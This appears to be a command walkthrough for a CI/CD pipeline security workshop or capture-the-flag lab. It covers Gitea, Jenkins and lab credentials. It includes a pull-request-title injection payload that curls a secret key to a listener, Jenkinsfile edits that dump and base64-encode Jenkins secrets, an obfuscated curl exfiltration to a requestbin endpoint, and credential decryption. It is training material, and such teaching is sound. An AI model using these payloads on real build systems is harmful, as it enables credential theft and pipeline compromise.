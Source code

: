 This Walk Thru contains commands and snippets that will be used in the workshop, and should help save time from manually typing complex commands or copying and pasting from slides which may mangle text.

### URL List

CTFd
- http://`[randomhash]`.mylabserver.com:8000
  - alice/alice

Gitea
- http://`[randomhash]`.mylabserver.com:3000
  - thealice/thealice

GitLab
- http://`[randomhash]`.mylabserver.com:4000
  - alice/alice1234

Jenkins
- http://`[randomhash]`.mylabserver.com:8080
  - alice/alice



### Slide 23
```
withCredentials([string(credentialsId: 'flag1', variable: 'flag1')])
    sh '''
        echo $flag1 |base64
    '''
}
```

### Slide 24

Decode the flag 

> Replace {base64} with the base64 in the console output
```
echo "{base64}" | base64 -d
```

### Slide 27

```
docker pull ghcr.io/gitleaks/gitleaks:latest
```

```
git clone http://localhost:3000/Wonderland/duchess.git
```

```
docker run -v ./duchess/:/path ghcr.io/gitleaks/gitleaks:latest detect --source="/path" -v
```

```
cd duchess
```

```
ls -al
```

```
git log -L 8,8:.pypirc 43f216c
```

### Slide 31

Return to home from less exercise
```
cd ~
```

Get IP address of host network interface
```
ip addr show dev ens5
```

```
sudo netcat -nvlp 80
```

Go to Gitea instance

http://<server>:3000/

thealice/thealice

http://<server>:3000/Cov/reportcov

Paste this into pull request title, replace `<YOUR SERVER IP>` with the one you got from the `ip addr` command above.
```
`echo ${KEY} > key && curl -v -F file=@key <YOUR SERVER IP>`
```

### Slide 35

```
git clone http://localhost:3000/Wonderland/mock-turtle.git
```

Use the same creds for gitea: thealice/thealice

```
cd mock-turtle
```

```
git checkout -b branch1
```

```
nano version
```

Update the version number 

Save the file `Ctrl-O`

Exit nano `Ctrl-X`

### Slide 36

```
nano Jenkinsfile
```

Paste this into the file at the line just below `steps {`:
```
withCredentials([usernamePassword(credentialsId: 'flag10', usernameVariable: 'USERNAME', passwordVariable: 'TOKEN')]) {
    sh 'echo $TOKEN | base64'
}
```

Save the file `Ctrl-O`

Exit nano `Ctrl-X`

Next commit the file change

```
git add version Jenkinsfile
```

```
git commit -m "New version"
```

Push the changes up to the repository
```
git push --set-upstream origin branch1
```

In Gitea navigate to the mock-turtle repo, and switch to the new branch `branch1`

Create a pull request and submit it.

The pull request should get autoapproved.

Go to Jenkins and you should see an automated build kicked off for the new "version".

Look at the console output of the new build.

### Slide 41

Replace `any` with the below
```
{node 'built-in'}
```
>e.g. `agent {node 'built-in'}`

Add the following to the `sh """` block
```
echo $JENKINS_HOME
cat $JENKINS_HOME/credentials.xml | base64
cat $JENKINS_HOME/secrets/master.key | base64
cat $JENKINS_HOME/secrets/hudson.util.Secret | base64
ls $JENKINS_HOME
cat $JENKINS_HOME/flag5.txt
```
>Your code should look like the below:
>```
>sh """
>    virtualenv venv
>    pip install -r requirements.txt | true
>    echo $JENKINS_HOME
>    cat $JENKINS_HOME/credentials.xml | base64
>    cat $JENKINS_HOME/secrets/master.key | base64
>    cat $JENKINS_HOME/secrets/hudson.util.Secret | base64
>    ls $JENKINS_HOME
>    cat $JENKINS_HOME/flag5.txt
>"""
>```

>**Note**: Jenkins is a fork of Hudson https://en.wikipedia.org/wiki/Hudson_(software) which was originally made by Sun Microsystems as an Open Source Project, then forked when Oracle bought it and wanted to trademark/monitize Hudson. So you'll sometimes see references to it such as in one of the files above.

### Slide 42


Go to requestbin.com and create a public bin

```
stage('Install Requirements') {
  steps {
    sh """
      curl -X POST \
      -F "file1=\$(cat $JENKINS_HOME/credentials.xml | base64 -w 0 | rev)" \
      -F "file2=\$(cat $JENKINS_HOME/secrets/master.key | base64 -w 0 | rev)" \
      -F "file3=\$(cat $JENKINS_HOME/secrets/hudson.util.Secret |base64 -w 0 | rev)" \
      -F "file4=\$(cat $JENKINS_HOME/flag5.txt | base64 | rev)" \
      ENDPOINT_URL
    """
  }


}
```

### Extract the creds

For each of the files you need to decode them and write them to the a file.

```
echo "{base64}" | rev | base64 -d > credentials.xml
```

```
echo "{base64}" |rev |base64 -d > master.key
```

```
echo "{base64}" |rev base64 -d > hudson.util.Secret
```

We can use a docker image with a Jenkins credential storage decrypter from here.

```
docker run \
  --rm \
  --network none \
  --workdir / \
  --mount "type=bind,src=$PWD/master.key,dst=/master.key" \
  --mount "type=bind,src=$PWD/hudson.util.Secret,dst=/hudson.util.Secret" \
  --mount "type=bind,src=$PWD/credentials.xml,dst=/credentials.xml" \
  docker.io/hoto/jenkins-credentials-decryptor:latest \
  /jenkins-credentials-decryptor \
    -m master.key \
    -s hudson.util.Secret \
    -c credentials.xml \
    -o json
```

### Resources

[NSA/CISA Defending Continuous Integration/Continuous Delivery (CI/CD) Environments](https://media.defense.gov/2023/Jun/28/2003249466/-1/-1/0/CSI_DEFENDING_CI_ENVIRONMENTS.PDF)

[NIST Strategies for the Integration of Software Supply Chain Security in DevSecOps CI/CD pipelines](https://csrc.nist.gov/pubs/sp/800/204/d/ipd)

[OWASP Top 10 CICD Risks](https://owasp.org/www-project-top-10-ci-cd-security-risks/)

[CI/CD GOAT](https://github.com/cider-security-research/cicd-goat/#readme)

